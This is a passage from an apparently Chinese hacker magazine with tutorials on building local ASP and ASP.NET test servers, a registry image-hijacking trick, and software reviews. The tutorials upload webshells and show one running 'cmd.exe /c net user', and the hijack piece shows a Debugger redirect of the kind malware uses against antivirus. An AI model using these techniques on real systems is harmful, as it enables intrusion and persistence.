- 系统分析模块——对系统中当前所有进程的运行状况全面分析的工具。
- 网络分析模块——对当前网络连接状态和分析进程的网络访问状态和异常情况。
- 安全日志模块——记录并能检测到的病毒、黑客、恶意程序的日志。
- 系统日志模块——记录系统中的进程启动、修改注册表、服务、驱动等信息。

有些黑客工具在访问网络或者进行其它操作时，也会被微点误认为病毒程序，点击主界面中的“设置”按钮进入“程序行为实时监控策略设置”界面，点击“可信程序设置”，将需要排除的程序添加进去就可以让微点不再检查它们了（图27）。


当有程序违反了检测病毒的主动防御模块的规则的话，微点就会立即报告，询问你如何处理，当有程序想访问外部网络的时候也会立即报告询问是否放行。当然了，微点主动防御的功能还不止这些，希望大家在使用过程中慢慢去发掘。根据我试用了近一个月的情况来看，将微点搭配杀毒软件一起来使用效果非常不错，安心又安全。

#### 四、影子的操作系统虚拟化技术

影子系统采用了最先进的操作系统虚拟化技术生成当前操作系统的影像，它具有与真实系统完全一样的功能。进入影子系统后，所有的操作都是虚拟的，因此所有的病毒和流氓软件都无法侵害到真正的操作系统。如果你想打造一台不需要维护的电脑或是一台百毒不侵的电脑，使用影子系统就是你绝对放心的选择。它独创的系统虚拟化技术即使在病毒大规模爆发和Windows出现危险漏洞的时候，也能让用户的电脑系统安全无恙，所有的工作有条不紊和正常运转。

借助创新的Windows虚拟化技术，影子系统实现了“层次化”的安全保护模式，在影子模式下，可以随心所欲的使用电脑，而不用担心会对正常的系统造成不良影响。主要表现在：可以随心所欲的访问网站，获取有用信息，而不用担心中毒；可以随意打开可能藏有病毒的邮件，避免遗漏重要邮件。

影子系统就像是一个还原卡，只不过不像还原卡那样设置麻烦和对硬盘有损伤。影子系统的安装过程也是非常简单的，只需要简单几步就可以轻松搞定，重新启动影子系统后会改变当前系统的启动画面（图28）。


- Microsoft Windows的正常模式：相对影子模式，我们称之为正常模式。在正常模式下，您对电脑的操作相当于没有安装影子系统一样，所有的操作都是可以进行保存的。
- Microsoft Windows的单一影子模式：单一影子模式是一种保护Windows操作系统安全的实用模式。它只对操作系统所在的分区进行保护，但您的电脑的其余分区（单一影子模式下则保持正常模式状态）。这是一种安全和便利兼顾的使用模式，既可以保障Windows系统的安全，又可以将影子模式下创建的文档保存到非系统分区。
- Microsoft Windows的完全影子模式：与单一影子模式相比，完全影子模式将会对本机内所有的硬盘分区创建影子。当退出完全影子模式时，任何对本机内硬盘分区的更改都将消失。在完全影子模式下，可以将有用的文件储存至闪存或者移动硬盘内。

首次安装完毕后，启动到正常模式进行影子系统的详细设置，在“通用设置”中可以随意选择从正常状态切换到单一或者完全模式下（图29）。在“启动菜单”中可以设置系统启动菜单的参数，比如显示哪几种模式、默认启动哪种模式、启动指定模式等待时间等（图30）。在“提醒设置”中可以设置影子系统的一些提示性信息（图31），当处于影子模式下时，影子系统有多种方式用来提醒工作在影子模式下，效果如图32所示。


在“文件夹迁移”中可以设置将系统文件夹迁移到哪里。


这主要是为了将用户常用的系统目录（比如桌面、我的文档和收藏夹）放置到非系统盘上，当用户使用单一影子模式时，仍可以在这些常用目录中存放用户数据（图 33）。

在“密码设置”中可以创建和管理正常模式和单一模式的进入密码（图 34），只有知道对应的密码才能进入正常模式或者单一影子模式，否则就只能进入完全影子模式（图 35）。正常模式和单一影子模式的默认密码为空，在正常模式下可以创建或者更改进入正常模式和进入单一影子模式的密码，在单一影子模式下则只能创建或者更改进入单一影子模式的密码。

从此以后就再也不用害怕病毒了，只要进入了影子模式就可以高枕无忧了。在测试新得到的木马、测试木马免杀、测试病毒威力等情况的时候，只需要进入合适的影子模式就可以放心的进行测试了。而且系统还不会产生额外的垃圾文件，可以保持系统干净和高效的运行。

（本文所涉及到的 NOD32、XP 系统优化专用工具、微点主动防御以及相应的动画教程都收录到了光盘中）

### 菜鸟也来学配置服务器之搭建 ASP 环境篇

txcbg

又到了一月一次菜鸟学堂开课的时间了，从 07 年 6 月开始，阿布老师和可爱的燕 MM 给大家带来了菜鸟飞行系列课程，整整讲了 17 课，阿布老师辛苦了。菜鸟飞行系列文章用生动活泼的语言给小菜们讲了很多知识，相信很多小菜通过它已经长成老鸟了吧，反正我是受益非浅。然而今天，阿布老师却没有来给大家上课，他干什么去了？当然是陪燕 MM 玩去了！话说阿布老师当年卖力的讲课很大部分都是为了讨好燕 MM，经过 17 个月的努力，阿布老师终于把燕 MM “骗” 成了自己的女朋友，达到目的后本性就显露出来了，这不，忙着陪燕 MM 玩居然不来上课了，真是有了女朋友就忘了我们小菜啊，小小的 BS 一下，呵呵。可菜鸟学堂总得有人上课啊，俺脸皮厚，不怕卖菜，就滥竽充数来给菜鸟学堂的弟子们上几堂课了。

“铃，铃，铃……”随着上课铃声的响起，txcbg 走上了菜鸟学堂的讲台。台下的小菜一看不认识，都在小声嘀咕：“这是谁啊，怎么不认识？”“阿布老师呢？”“怎么像是一农民工？”“农民工！？txcbg 脑袋上的汗滴了下来，就算是农民工，也是流行的 IT 农民工。txcbg 清了清嗓子说道：“大家好，我是 txcbg，来自于山东农村，阿布老师最近忙着找工作（我就不揭阿布的老底了，布 MM 要请我吃饭啊），所以菜鸟学堂就暂时由我来带几堂课，希望大家多多关照。”

“啪，啪，啪”居然有几个小菜鼓起了掌，好感动啊。

“txcbg，你会什么？”一小菜问道。

“我会卖菜，会在论坛灌水，还会没事的时候调戏 MM，还会……”看到台下有人要拿鸡蛋砸了，txcbg 赶紧停了下来，顿了顿嗓子，才继续说道：“在阿布老师以前的课中，特别是在介绍 webshell 提权的课中，有许多都是在本地电脑上架设的测试环境进行测试的，在本地架设测试环境进行测试都有什么好处呢？你们来说说。”

“不怕被警察叔叔请去喝茶。”一小菜回答道。

“速度快。”

……

“你们说的都很有道理，下面我就来总结一下在本地搭建测试环境的好处：

- 1. 安全。随着国家打击网络违法犯罪力度的加大，再去随便入侵别人的网站是非常危险的，而如果在本地搭建的环境中进行测试，不管做什么，都不会对别人造成损害，自然也就不违法了。
- 2. 学到东西。在搭建测试环境的过程中，我们会知道网站是怎样架设和维护的，会知道网站管理员是怎样防止别人渗透的，这样才能做到知己知彼，可以提高你的网站渗透能力。”

“很多人可能会认为搭建本地测试环境很简单，没什么技术含量。的确不需要多少技术，但搭建一个本地测试环境也绝不是一件简单的事，而是一件相当麻烦、相当繁琐的事，有时一个测试环境要经过几天的时间才能测试成功，想当年我为了搭建一个 PHP 环境，按照书上网上教程做了好几遍就是不成功，弄了将近一个星期才搞定的。”

“这么难啊？！”很多小菜听了后都有些害怕了。

为了不让同学们产生畏惧心理，txcbg 赶紧说道：“其实，大家要有耐心，出现问题认真去解决，搭建本机测试环境还是很简单的。”

“噢。”同学们终于松了口气。

“好了，同学们就和我一起学习一下 ASP、ASP.NET 环境的搭建、PHP 环境的搭建和 JSP 环境的搭建，每个环境我都会使用一个论坛程序为例子并检验环境搭建是否成功，还会简单的介绍一些安全设置和权限设置，如果时间允许的话，可能还会介绍一下对应环境下著名 CMS 的安装。今天就先讲 ASP 环境的搭建了，以后的课程中再分别介绍 ASP.NET、PHP 和 JSP 环境的搭建。另外，我还会留一点课后作业，完成好的同学有肉鸡奖励哟。”

一听有肉鸡奖励，台下的小菜们都来了精神，有几个居然还流下了口水，“要的就是这效果。” txcbg 心里暗笑道。

“好了，废话了那么多，下面来进入今天要讲的内容。”

#### ASP 环境的搭建

ASP 是 Active Server Page 的缩写，意为“动态服务器页面”，ASP 是微软公司开发的代替 CGI 脚本程序的一种应用，它可以与数据库和其它程序进行交互，是一种简单、方便的编程工具。ASP 网页文件的格式是 .asp，现在常用于各种动态网站中。ASP 是一种用途非常广泛的动态网页编辑语言，现在仍然有很多网站尤其是中小型网站在使用 ASP 程序搭建自己的网站。

要搭建 ASP 环境，最好使用 IIS，因为 IIS 是微软出的，ASP 也是微软公司开发的，利用 IIS 可以完美的支持 ASP 的各种功能，当然了，如果你只是要运行一个简单的 ASP 程序，也可以使用 netbox 等软件来搭建简单的 ASP 环境，但有些功能可能会支持不好，而且容易出现莫名其妙的错误。所以，如果你的电脑配置还可以，可以跑起虚拟机的话，建议你在虚拟机上安装一个 Windows2003，然后再把 IIS 6.0 安装上，这样就可以完美的支持 ASP，如果你的电脑实在跑不起虚拟机，搭建 ASP 环境可以简单的使用 netbox 等凑合一下，我不太建议在 XP 系统下安装 IIS，有点男人穿裙子的感觉。以上的两种方法我在下面都会介绍到。

先来说第一种情况，也就是在 Windows2003 下安装 IIS 来搭建 ASP 环境，我使用的 2003 系统是深度 Win2003_EE_SP2_Full_080328 完整功能版，先在 VMWare 虚拟机中安装好，具体的安装过程我就不多说了，还不会的小菜回去看一下黑客 X 档案以前的相关文章，安装完后的系统如图1所示。


下面来安装IIS，已经会的小菜就当复习一下吧，点“开始”菜单中的“管理您的服务器”，就打开了“管理您的服务器”页面，如图2，然后点“添加或删除角色”就会打开“配置您的服务器向导”，再点“下一步”就开始检测你的网络连接了，检测完成后会显示如图3所示的配置选项，这里选择“自定义配置”，然后点击“下一步”就出来了服务器角色选择窗口，选择“应用程序服务器（IIS，ASP.NET）”，如图4，在接下来的页面中勾选“启用ASP.NET”，继续点击两次“下一步”就开始安装了，看到如图5所示的窗口就说明安装成功了。这时在“开始”菜单的“管理工具”中就会多出一个“Internet信息服务(IIS)管理器”，直接点击它就可以管理IIS了，如图6。


IIS安装好后，系统会自动创建一个默认的Web站点，该站点的主目录默认为c:\inetpub\wwwroot，使用鼠标右键单击“默认Web站点”，在弹出的快捷菜单中选择“属性”，此时就可以打开站点属性设置对话框，在该对话框中可以完成对站点的全部配置，如图7。


IIS安装好了，来看看它能不能解析asp文件，新建一个文本文档，输入如下代码：

保存后把文件名改为test.asp，把文件复制到c:\inetpub\wwwroot下，然后在浏览器里输入http://localhost/test.asp，结果却如图8所示，提示“无法找到该页”，这是怎么回事呢？其实这是我们还没有启用Active Server Pages的WEB服务扩展，选中WEB服务扩展中的Active Server Pages，点击左边的“允许”，如图9。再来刷新一下，已经能够解析了，如图10。再放一个ASP马上去，同样能够解析，如图11。


接下来我们以著名的ASP论坛程序Dvbbs 8.2，也就是动网论坛为例来实际搭建一个论坛环境。为了方便，我新建一个虚拟目录，使用鼠标右键单击“默认Web站点”，在弹出的快捷菜单中选择“新建”－>“虚拟目录”，如图12，网站描述就写dvbbs，网站内容目录指向我新建的一个目录c:\web\dvbbs，虚拟目录访问权限暂时把“读取”、“运行脚本”和“写入”选上，如图13。

从http://bbs.dvbbs.net/download/Dvbbs8.2.0_ac.exe把Dvbbs 8.2的安装文件下载下来，暂时安装到桌面的dvbbs目录下，通过查看说明文件，发现下载的这个版本的Dvbbs是需要Access数据库支持的，先来安装一下ACCESS，我安装的是Office 2003 SP2 简体中文完整版中的ACCESS，安装类型选择“自定义安装”，然后只选择安装Access，如图14，一路点击“下一步”，几分钟后就安装成功了。


图14


图15


图16

高级 -> 立即查找，在找到的用户中把 IIS 来宾帐户 IUSR_TXCBG（IIS 来宾帐户的名字是 IUSR_计算机名，因为我的计算机名是 TXCBG，所以我找到的用户是 IUSR_TXCBG，如果你的计算机名是 test，那么你找到的 IIS 来宾帐户就将是 IUSR_test）添加上，并给予除了完全控制以外的所有权限，如图16，图17。


图17

然后右键点击默认网站下的 dvbbs 虚拟目录 -> 属性，在“虚拟目录”选项中把“脚本资源访问”勾选上（因为要运行脚本，默认情况下这个选项是没有勾选的），如图18。再来登录一下，前台已经能登录了，如图19。发个帖子试试，发表成功了，呵呵，如图20。


图18


图19


图20

小小的庆祝一下吧，我们成功搭建了一个 Dvbbs8.2.0 的论坛环境，再进入后台看看，直接点“管理”来到后台登录页面 http://localhost/dvbbs/admin_login.asp，却是“HTTP 500 内部服务器错误”，如图21（又出问题了，看来配置一个测试环境虽然不需要什么高深的技术，但是要配置成功，还真不容易啊）。继续到 baidu 搜索一下，说是没有“启用父路径”，好了，右键点击 dvbbs 虚拟目录 -> 属性 -> 虚拟目录 -> 配置 -> 选项，勾选上“启用父路径”，如图22。再来登录一下，问题果然解决了，

成功进入了后台，如图 23。


至此，dvbbs 论坛就算是搭建完成了，下面再来安装一下动易内容管理系统 2006 Sp6 Build 1120 普及版。

txcbg 看到台下有几个小菜要打瞌睡，赶紧敲了敲讲桌，说道：“大家精神一下，实在犯困的可以自己站一下（当年我当学生的时候我的老师就是这么说的=。=），谁睡觉的逮住罚交 10 只大肥鸡。”被这么一说，小菜们又认真听讲了。

下面再来实际安装一下动易内容管理系统 2006 Sp6 Build 1120 普及版，在默认的网站下新建一个虚拟目录，名字为 dongyi，网站内容目录指向 c:\web\dongyi，权限除了“写入”和“浏览”外都勾选上，然后像上面那样给 IIS 来宾帐户 IUSR_TXCBG 除了“完全控制”外的所有权限，同样的，右键点击 dongyi 这个虚拟目录，在属性中给予“脚本资源访问”权限。动易内容管理系统是需要它自己的动易组件支持的，解压打包成 rar 格式的动易内容管理系统 2006 Sp6 Build 1120 普及版安装文件后，首先运行 PE2006_DLL.exe 来安装动易的组件，如图 24，安装完成后再来运行管理系统的安装文件 PowerEasy2006.exe，我暂时先把它安装到 C:\Documents and Settings\Administrator\桌面\dongyi\目录下，如图 25。

安装完成后来到安装目录的 Database 目录下，为了防止别人下载默认数据库，我们来给数据库改一下名，比如我把数据库改名为 hackerxfiles#5y#.mdb，然后再来到安装目录的根目录下，使用记事本打开 conn.asp，把数据库路径修改为“db = "/dongyi/database/hackerxfiles#5y#.mdb"”，其中黑体的 dongyi 是相对于网站根目录的动易的安装目录，因为我的动易是安装到网站根目录下的 dongyi 这个虚拟目录下，所以前面要加 dongyi 这个目录，保存对 conn.asp 的修改，然后把安装目录下的所有文件和文件夹复制到 c:\web\dongyi 目录下，然后访问 http://localhost/dongyi/Install.asp 就来到了安装页面，如图 26。


要使用管理员帐户登录后才能继续安装，怎么不显示验证码啊，怎么刷新也没用，没有验证码怎么登录啊。我又到 baidu 上搜索了一下，还是没有“启用父路径”的问题，仍然像上面那样右键点击 dongyi 虚拟目录 -> 属性 -> 虚拟目录 -> 配置 -> 选项，勾选上“启用父路径”，再刷新一下，验证码出来了，如图 27。

使用用户名 admin 和密码 admin888 登录成功，来到了“动易网站管理系统安装向导”，如图 28。


在这里可以进行一些设置，比如为了不让别人轻易的找到后台路径，可以把“后台管理目录”由默认的 admin 改为别的目录，我把“网站名称”和“网站标题”都改为了“菜鸟学堂课堂演示”后点击“下一步”，马上就出来了如图29所示的页面，为了安全，我们点“删除此安装文件”按钮，然后在提示删除 Install.asp 成功后关闭页面就完成了动易 2006 的安装，这时访问 http://localhost/dongyi/index.asp 就可以看到动易 2006 的首页了，如图 30。

因为我们还没有添加任何内容，所以整个页面显得很空，没问题，我们来添加一点内容。直接点页面右下角的“管理登录”链接，在出来的登录页面中输入管理员用户名和密码后就进入了后台，如图 31。

点“网站栏目管理”下的“文章栏目管理”快捷菜单，然后点“添加文章栏目”新建一个文章栏目，栏目名称为“菜鸟学堂演示”，目录名为cainiao，如图 32。


栏目添加成功后再来到“文章管理中心”添加一篇文章，如图33，添加好后来到首页看一下，已经有了我们刚写的文章了，如图34，图35。为了安全，我们一定要把管理员的默认密码改掉。


使用 IIS 搭建 ASP 环境就讲到这儿，下面我再来简单的讲一下使用 netbox 搭建简单 ASP 环境的方法。有时我们只是要解析几个简单的 ASP 网页，这时候就可以用 netbox 来快速搭建 ASP 环境了。netbox 是一个小巧而强大的 asp 服务器软件，它可以让


你在一分钟之内搭建好ASP环境，目前NetBox的最新版本是2.8.4128，可以从http://down.chinaz.com/soft/13211.htm下载到。下载完成后需要进行安装，一路点击“Next”，最后点“Finish”就可以完成安装了，安装完成后会在桌面上生成一个如图36所示的图标。


要运行asp文件还需要一个文件，我们新建一个文本文档，在里面输入如下内容：

```
Dim httpd
Shell.Service.RunService "NWeb", "NetBox Http Server Sample"
Sub OnServiceStart()
  Set httpd = CreateObject("NetBox.HttpServer")
  If httpd.Create("", 80) = 0 Then
    Set host = httpd.AddHost("", "\www")
    host.EnableScript = true
    host.AddDefault "index.htm"
    host.AddDefault "index.asp"
    host.AddDefault "default.htm"
    host.AddDefault "default.asp"
    httpd.Start
  else
    Shell.Quit 0
  end if
End Sub
Sub OnServiceStop()
  httpd.Close
End Sub
Sub OnServicePause()
  httpd.Stop
End Sub
Sub OnServiceResume()
  httpd.Start
End Sub
```

其中www是存放你的asp文件的相对路径，保存后把它重命名为main.box，假如我们要运行的asp文件放到了桌面上的www文件夹下（“www”对应着上面代码中的“www”），把那个刚才生成的文件放到桌面上，即放到存放你要发布的asp程序的www文件夹的相同目录下，然后直接双击main.box，看到任务栏出现了如图37所示的图标就表示asp程序成功发布了，使用浏览器打开http://127.0.0.1/dama.asp成功运行，表明ASP环境搭建完成，如图38（我提前把asp大马dama.asp放到了桌面上的www目录下）。


网上也有其它的asp环境搭建工具，不过我觉得NetBox是最好用的，有些其它的小型asp服务器软件的内核用的就是NetBox。如果不算下载NetBox安装程序的时间，使用NetBox在一分钟内就可以搭建起ASP环境来。如果你要测试小型ASP程序，又没有安装IIS时，NetBox就是一个非常不错的选择。

讲到这儿，txcbg松了一口气说道：“ASP环境的搭建就介绍完了，大家稍微休息一会儿，下次我们继续讲ASP.NET环境的搭建。”

（文章中涉及到的Dvbbs8.2.0安装程序，NetBox.exe，动易内容管理系统2006SP6已经收录在光盘中）


图34

图35

图36

图37

图38

## 菜鸟学堂

### 菜鸟也来学配置服务器之搭建 ASP.NET 环境篇

txcbg

前几天刚度过了自己的节日，但心里却怎么也高兴不起来，是什么原因呢？因为我过的节日，就是11月11日——光棍节呀！想想论坛里的好多人都有女朋友了，心里很是羡慕啊。再给大家爆个猛料，前几天有小菜在黑客X档案的官方论坛发帖询问阿布哥哥和燕MM的恋爱故事已经发展到什么程度了，结果阿布承认说燕MM已经成了家里的财务主管，掌握了他的钱袋。

随着菜鸟学堂上课铃声的响起，穿着棉袄棉裤棉鞋的txcbg走上了讲台（其实教室里的暖气已经很热了）：“各位菜同学好，感谢大家再次来听我讲课，现在已经是冬天了，外面冷，为了做到防寒保暖，请各位同学有BF的抱BF，有GF的抱GF，暂时没有的请抱暖水瓶，实在没有暖水瓶的，可以抱煤气罐（注意要点燃），切勿乱抱鸡鸭鹅等动物，以防禽流感……”话还没有说完，就听台下的小菜嘟囔道：“你是光棍，你才乱抱鸡鸭鹅呢。”

txcbg假装没有听到，咳嗽了一声，然后转过了话题：“在上节课中我们介绍了ASP环境的搭建，本节课我们就继续介绍ASP.NET环境的搭建，大家平时在网上见到的使用ASP.NET搭建的网站可能比较少，其实有一个很大型的网站就是使用ASP.NET搭建的，那就是微软的官方网站。”台下的小菜们立马打开了微软的官方网站，果然发现了网站是使用ASP.NET搭建的。

“ASP.NET既有ASP的易用性，又增强了安全性并且还增加了许多功能，再加上微软的大力推广，相信会有越来越多的网站采用ASP.NET的，那么谁能说什么是ASP.NET呢？”txcbg正要继续念提前整理好的概念，就见一小菜站起来滔滔不绝的回答道：“ASP.NET是下一代ASP，是微软.NET构架的重要组成部分，它不是ASP的简单升级，而是全新一代的动态网页实现系统，是用于一台WEB服务器建立强大的应用程序，是微软发展的新体系结构.NET的一部分，是ASP和.NET技术的结合。ASP.NET提供基于组件、事件驱动的可编程网络表单，大大简化了编程，我们还可以使用ASP.NET建立网络服务。”

txcbg见有人抢了自己的风头，有些不悦，但为了显示自己的大度，于是说道：“这位同学回答的非常精彩，肯定是做到了课前预习吧，值得……”

“表扬”二字还没有说出口，就见那位回答问题的同学晃了晃手中的手机，然后说道：“我是刚从网上搜到的，用手机上网，很爽很时髦……”讲台上的txcbg和台下的小菜们立刻晕倒了一大片，过了好半天，txcbg才从地上爬了起来，清了清喉咙，说道：“呵呵，看来上网是越来越方便了，大家先别玩手机，要注意听讲。其实在上一节课配置ASP环境安装IIS时，我们已经‘启用ASP.NET’了，当时通过使用‘配置您的服务器’向导在运行Windows Server2003的服务器中安装ASP.NET，其实还可以通过使用‘添加或删除程序’来安装ASP.NET。”

1、选择“开始”→“设置”中的“控制面板”，然后点击“添加或删除程序”。

2、在“添加或删除程序”对话框中，点击“添加/删除Windows组件”。

3、然后选择“组件”中的“应用程序服务器”复选框，点击右下角的“详细信息”按钮，在弹出的窗口中把“ASP.NET”和“Internet信息服务(IIS)”两项都勾选上，点击“确定”后再点击“下一步”就可以完成安装了，如图1，图2。


来到WEB服务扩展看看，居然没有ASP.NET项，奇怪了，搜索一下，找到了微软官方给出的解决方法：


需要注意的是，因为Framework的版本不同，所以具体的名称和路径可能会有些不同，比如版本是v1.0.3705，其路径就是Windows目录\Microsoft.NET\Framework\v1.0.3705\Aspnet_isapi.dll。


为了验证 ASP.NET 环境是否搭建成功，我们在默认网站下新建一个名为 aspxnet 的虚拟目录，虚拟目录指向 C:\web\aspxnet，然后给予 IUSR_TXCBG 和 NETWORK SERVICE 组除了“完全控制”以外的所有权限，如图 4。


把 aspx 一句木马放到 C:\web\aspxnet 目录下，并命名为 1.aspx，打开IE浏览器访问一下，提示无法找到该页，如图5，在网上搜索了一下这个问题，说是让检查一下是否有 .aspx 扩展名的解析，我看了一下，竟然真的没有，于是马上添加一个 .aspx 的扩展名，可执行文件则指向 C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\aspnet_isapi.dll，如图6。

再来访问一下，还是出错，这次是权限问题，提示 NETWORK SERVICE 用户对 C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\Temporary ASP.NET Files\ 没有写权限，如图 7，给予其写权限后就没有错误提示了，使用一句话木马的客户端进行连接，连接成功并且功能也都正常，如图 8、图 9。

这样 ASP.NET 环境就初步搭建完成了，我们再来安装一个 ASP.NET 环境下的论坛，这次我们选择的是前一段时间暴出注入漏洞的 Discuz! NT 2.5（更新 080729），安装成功后就可以测试漏洞了。Discuz! NT 2.5 需要SQL数据库的支持，因此我们还需要安装SQLServer 2000数据库，我是从网上下载的“SQLServer 2000 4合1 SP4 简体中文版+7.0 英文版”，双击运行安装程序，然后一路点击“下一步”，在“身份验证模式”安装界面中，为了安全，我们需要设置一下sa的登录密码，如图10。数据库安装完成后我们在默认网站下新建一个网站，名字为dntbbs，主目录为C:\web\dntbbs，然后像上面所讲的那样添加对.aspx 文件的ISAPI扩展，如图11。

下面来进行关键目录的权限设置：我们新建两个帐号，打开“控制面板”中的“管理工具”，然后找到“计算机管理”，双击用户后展开用户列表，在用户列表内点鼠标右键选择新用户，分别建立两个用户discuz_iusr和discuz_iwam，相关选项如图12，图13所示。

在用户名栏输入你要使用的用户名，至于“全名”以及“描述”，只是用来说明用的，可以不填写。建议设置的用户名使用“iusr”和“iwam”来做后缀以区别IIS来宾帐号和IIS的进程启动帐号。一般来说iusr为IIS来宾帐号，iwam为IIS进程启动帐号。当然我们也可以按照自己的习惯来区分这两个帐号，方便以后的使用和管理。帐号的密码我建议使用一个12位以上的数字、字母和符号的混合密码，或者是一个MD5两次后的密码，这样可以有效的防止密码被人暴力破解。


| 网站 | http://localhost:1:8080 |
| ---- | ---- |
| 路径 |  |
| 移动/复制文件 | 从:  到: |
| 下载/编辑文件 | 文件路径: |
| 运行程序 | 程序路径: c:\windows\system32\cmd.exe  参数: /c net user |
| 主机信息 |  |
| 上传文件 |  |

| 用户名 | 全名 | 描述 |
| ---- | ---- | ---- |
| Administrator |  |  |
| IWAM_TXCBG |  |  |
| IUSR_TXCBG |  |  |
| SUPPORT_388945a0 |  |  |


```
选择身份验证模式。
○ Windows 身份验证模式(W)
● 混合模式(Windows 身份验证和 SQL Server 身份验证)(M)

添加 sa 登录密码
输入密码(P):
确认密码(C):
□ 空密码(不推荐)(E)
```


帐号建立完成后我们再更改一下帐号的所属组，首先更改 discuz_iusr 的组为 Guests，接着更改 discuz_iwam 的组为 IIS_WPG，如图 14。这样我们就有访问网站时用户连接服务器的帐号 discuz_iusr 和服务器用来启动程序池运行 .net 程序的帐号 discuz_iwam。

下面来更改 IIS 的配置：选择“控制面板”→“管理工具”→“Internet 信息服务(IIS)管理器”，打开你的站点属性，找到“目录安全性”选项，点击“身份验证和访问控制”中的“编辑”，出现了如图 15 所示的界面。


图 15


图 16


图 17

在“用户名”中输入我们刚才新添加的来宾组的帐号 discuz_iusr，然后在应用程序池中新建一个应用程序池并命名为 discuz，再在新建的应用程序池上点鼠标右键选择属性，找到“标识”选项，选中“配置”，在其下的“用户名”中输入刚才设置的 IIS 进程启动帐号 discuz_iwam，如图 16。

IIS 站点要使用此程序池来运行，进行以上这些设置后还要更改 windows 目录下 temp 文件夹的权限，给 temp 文件夹加上一个 IIS_WPG 的帐号，并给予如图 17 所示的权限，最后还要给网站的目录 C:\web\dntbbs 添加 discuz_iusr 和 discuz_iwam 这两个帐号如图 18 所示的权限，并给予 IIS_WPG 除了“完全控制”以外的所有权限。


图 18

权限设置完毕后解压 Discuz!NT 2.5 的压缩包，把 upload_files 目录下的所有文件复制到 C:\web\dntbbs 目录下，然后访问 http://localhost/install/index.aspx，就成功看到了安装界面，安装环境检测通过，如图 19。


图 19

点击“下一步”后就出现了如图 20 所示的页面，输入论坛管理员的用户名和密码，数据库类型选择 SqlServer，然后在“数据库用户名称”和“数据库用户口令”栏中输入sa和其密码，在企业管理器中新建一个数据库dnt2，然后点“开始安装”，看到如图21所示的页面后就说明安装成功了。


打开论坛，发个帖子试试，也成功了，如图22。至此，ASP.NET环境就搭建完成了。


txcbg 最后总结道：“花了两节课啰啰嗦嗦磕磕碰碰的总算把怎样搭建ASP和ASP.NET环境给讲完了，以后大家也可以在本机测试ASP和ASP.NET程序的漏洞了。在介绍的过程中我没有使用以前的经验来搭建环境，而是从一个新手的角度去安装，虽然在安装过程中也遇到了很多问题，但我们借助搜索引擎都解决了，大家在进行配置的时候可能会出现一些问题，但不要怕，搜索一下很可能就会找到问题的解决方案了。另外，我们只是搭建一个测试环境，因本人水平有限，讲不好怕误导大家，所以在配置环境时我没有讲安全配置，这点还请大家注意。今天的课程就讲到这里了，大家回去后自己也要实践一下去搭建ASP和ASP.NET环境，下一节课我们将介绍PHP测试环境的搭建。”

（文章中涉及到的Discuz!NT 2.5 安装程序已经收录在光盘中）

### 看小黑教你映像劫持的利用

这日，我正在与病毒进行着斗争，突发奇想，想到了注册表中映像劫持的利用，这也不枉我多年与病魔的斗争中所积累的经验啊。本来电脑好好的，可不知怎么的就中了病毒，后来才想起是打开的压缩文件中捆绑有病毒，上一次我就被这病毒搞得头晕脑胀，这个病毒是感染EXE文件的，由于对它已经非常熟悉了，所以就花了一点时间把它清除掉，但我还得把剩下的exe文件确认一遍没有捆绑病毒才行，除了使用一些反捆绑软件或winhex等的帮助外，能不能纯手工排除病毒呢？我就想到了映像劫持。

大家都知道，很多病毒都采用映像劫持的方法来阻止一些杀毒软件或安全工具的运行，我们要利用的正是这一点：病毒会在注册表的“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\NT\CurrentVersion\Image File Execution Options”这一项下建立许多项，这些项所对应的就是比较流行的杀毒软件和安全工具的进程名来实现映像劫持的目的，如图1。比如我们要对千千静听进行映像劫持，那么就建立一项，命名为ttplayer.exe，如图2，在右边窗口中新建字符串值debugger，输入值C:\PROGRAM FILES\STORMII\STORM.EXE，这时我们只要运行千千静听，暴风影音就会运行了，我们就是要利用这一点。

如果我们已经知道了病毒的进程名，假设为wdmfgr.exe，按上述方法进行操作，这时我们把值设为一个不存在的程序，这样就会出错，但不会运行任何程序。这样我们再去检查exe文件是否被感染时，就不怕再次爆发病毒瘟疫了；既安全又快捷，一举两得。刚才所说的也可以用在杀毒过程中，这样病毒重复被运行的麻烦就免去了，顶多是点几下确定罢了，而且还会看到病毒的完整路径啊，更是一举N得！如果我们在一次杀毒完成后，在Image File Execution Options项下把刚才杀掉的那个进程写进去，这样以后我们就不用担心会被这个病毒打扰了，也就不会像我这么狼狈了。因为同一个病毒不能中两次嘛！

更多的利用就得靠小菜们自己去挖掘了，最后再提醒一下大家，只要肯动脑筋，困难就会迎刃而解的，而且我们还会有很大的收获的！


| 名称 | 类型 | 数据 |
| --- | --- | --- |
| (默认) | REG_SZ | (数值未设置) |
| Debugger | REG_SZ | c:\1.exe |


- INSTMON.EXE
- apitrap.dll
- ASTSE.dll
- AVSTE.dll
- Cleanup.dll
- cqvw2.exe
- dv.exe
- dvhdec.exe
- dwhw00.dll
- dwhwnt.dll
- dwshost.exe
- dwweb.exe
- dwxx.exe
- dzipxpd.dll
- HtKafix.dll
- kdxxx.dll
- kxe.exe
- kxmonk.dll
- kxscan.dll
- LOGOW.dll
- rispro.dll
- rstray.exe
- Systex.exe
- ttdll.dll
- ttdll.exe


### 无限QQ钻石任你刷

CJ 也疯狂

今天在 QQ 上听好友添添说招商银行推出了活动，可以答题兑换 QQ 钻和会员。我一听激动不已，赶紧向他要来了活动的网址 http://live.cmbchina.com/webpages/netshield/index.html，打开一看，原来是个 Flash 探宝游戏，完成游戏后可以获得 QQ 增值服务的兑换码，获得兑换码后就可以到 http://free.qq.com/bar/index.shtml 进行兑换了！不过具体奖品就要看你运气了，我抽到了红、黄、绿 3 个钻，可惜没有抽到会员，不过这也不错了，毕竟是免费的嘛！


图 3

图 4

可能会有小菜问我这些答案是从哪里来的？哈哈，其实挺简单的，如果我们选择了错误的答案，在 Flash 下面就会有提示说“选择错误，请重新选择”，如图 2，我可是经过不懈的努力才给叉子们试到了全部正确的答案哟。

回答完所有的问题后就来到了成绩提交页面，输入姓名和 E-mail 地址后点击“提交成绩”，如图 3，然后我们就会获得兑奖码了，如图 4。打开兑奖页面，输入我们的兑奖码，如图 5，点击“马上兑奖”，就会获得随机的奖品了，如图 6，特别提醒一下大家，奖品是可以多选的哟！


图 1

